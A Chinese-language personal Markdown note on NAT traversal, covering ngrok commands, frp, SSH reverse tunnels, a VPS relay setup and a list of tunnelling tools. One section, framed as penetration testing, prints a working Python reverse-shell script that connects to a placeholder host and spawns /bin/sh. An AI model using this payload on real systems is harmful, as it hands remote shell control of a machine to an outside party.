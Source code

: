 ```yaml
---
title: 内网穿透 ngrok
date: 2019-02-21
private:
---
```

# 内网穿透
都是通过公网做转接: https://zhuanlan.zhihu.com/p/28820926

- ngrok
    流量重放
    ./ngrok -config=ngrok.cfg -subdomain <domain> 80
    ./ngrok -config=ngrok.cfg -hostname xxx.xxx.xxx 80
- frp 支持 tcp, udp, http, https 协议, 高性能
- 用反向隧道的ssh
- lanproxy: 支持tcp流量转发
- natapp: 基于ngrok, 比花生壳好用

# ngrok
参考：https://zhuanlan.zhihu.com/p/28820926 /py-demo/socket/proxy-reverse-server.py
1. 假设我们需要共享的 web 是 python 的 simple http_server， 首先执行 python -m SimpleHTTPServer, 这样本地会绑定 8000 端口
2. 在自己的 vps 上运行 python3 reverse_server.py
3. 在本地运行 python3 reverse_client_proxy.py
3. 接下来我们直接在外网访问 vps 的地址: http://xx.xx.xx.xx:8000 就可以发现能够转发内网的数据了

内网穿透可以用于做内网渗透测试， 内网执行最基本的 python 反弹 shell 脚本：

    import socket,subprocess,os
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("x.x.x.x",2333))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/sh","-i"]);

# 工具
作者：予墨白 链接：https://www.zhihu.com/question/49629610/answer/190228044

GO实现的：
- longXboy/lunnel  这个功能挺多的看介绍跟frp差不多了
- mirrors/dog-tunnel 这个看起来似乎更多使用

javascript实现的：
- localtunnel/localtunnel  这个就不上档次了，貌似只支持http协议的隧道；不过star数可不比上面两个差；

python实现：
- hauntek/python-ngrokd  见名知义， python版本的ngrok；协议都是一样的

C语言版：
- dosgo/ngrok-c

php实现的；也是予墨白近期的一个作品；
- slince/spike；基于reactphp的io多路复用模型，类似于nodejs的执行方式；简单测评并没有比go语言实现的差太多；
